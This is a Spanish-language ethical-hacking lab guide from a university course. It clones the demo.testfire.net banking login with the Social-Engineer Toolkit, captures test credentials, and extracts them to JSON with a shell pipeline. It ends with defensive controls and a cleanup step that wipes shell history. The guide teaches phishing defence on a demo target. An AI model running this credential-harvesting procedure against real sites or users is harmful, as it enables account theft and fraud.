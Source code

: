 # Laboratorio Semana 11 - Ingeniería social mediante clonación y captura de credenciales en Kali Linux - (CY-203 Hackeo Ético)

---

## 1. Objetivos
1. Clonar el portal de demostración `http://demo.testfire.net/login.jsp` que simula la banca en línea de Altoro Mutual.  
2. Ajustar el formulario para que envíe las credenciales al servidor local.  
3. Capturar credenciales de prueba y almacenarlas en `creds.json`.  
4. Generar un informe en `informe_final.json` y proponer controles defensivos.

---

## 2. Requisitos técnicos  
| Componente | Versión mínima | Verificación |
|------------|----------------|--------------|
| Kali Linux | 2025.2 | `cat /etc/os-release` |
| Python | 3.11 | `python3 --version` |
| Social Engineer Toolkit (SET) | 9.1 | `setoolkit --version` |
| Apache | 2.4 | `apache2 -v` |
| jq | 1.7 | `jq --version` |

---

## 3. Preparación del entorno
```bash
sudo apt update && sudo apt -y full-upgrade
sudo apt -y install apache2 jq
sudo apt install setoolkit
sudo systemctl enable --now apache2
mkdir -p ~/week11_phish && cd ~/week11_phish
```
---

## 4. Clonado del sitio con SET
```text
1. sudo setoolkit
2. 1 Social Engineering Attacks
3. 2 Website Attack Vectors
4. 3 Credential Harvester
5. 2 Site Cloner
6. URL objetivo: https://demo.testfire.net
7. IP de Kali cuando se solicite (consulta con: ip -br addr)
```
Los archivos clonados se almacenan usualmente en `/var/www/html`.

---

## 5. Ejecución del harvester
```bash
sudo systemctl stop apache2        # libera el puerto 80
# SET mostrará: Credential Harvester is running on port 80
# Desde la víctima visita http://IP_Kali/login.jsp y envía credenciales de prueba
```
---

## 6. Reporte de SET
```bash
sudo ls -l /root/.set/reports
# Ejemplo de archivo:
# /root/.set/reports/2025-07-21 17:40:52.546938.xml
```
---

## 7. Extracción de credenciales a JSON
```bash
sudo cp '/root/.set/reports/2025-07-21 17:40:52.546938.xml' ~/week11_phish/report.xml
sudo chown $USER:$USER ~/week11_phish/report.xml
cd ~/week11_phish

grep -Eo '(uid|username)=[^&]+&(passw|password)=[^<]+' report.xml | \
awk -F'[=&]' '{u=($1~/uid|username/)?$2:$4; p=($3~/passw|password/)?$4:$2; print "{\"user\":\""u"\",\"pass\":\""p"\"}"}' | \
jq -s '.' > creds.json
```
---

## 8. Informe final
Create `informe_final.json`:
```json
{
  "victims": 3,
  "site_cloned": "https://demo.testfire.net",
  "credentials_file": "creds.json",
  "attack_vector": "Correo de alerta de transacción",
  "timestamp": "2025-07-21T17:00:00-06:00"
}
```
---

## 9. Controles defensivos sugeridos
* Activar autenticación de dos factores en la banca en línea.  
* Configurar SPF, DKIM y DMARC para evitar suplantación de correos.  
* Sensibilizar a los usuarios sobre la verificación del dominio y el candado TLS.  
* Bloquear dominios recién registrados desde el gateway de correo.

---

## 10. Limpieza
```bash
sudo pkill -f setoolkit
sudo systemctl start apache2
sudo rm -rf /var/www/html/*
history -c
```

 - ---

**Profesor:** Esteban Mata Morales  
**Curso:** CY-203 Hackeo Ético  
**Universidad Fidélitas de Costa Rica**
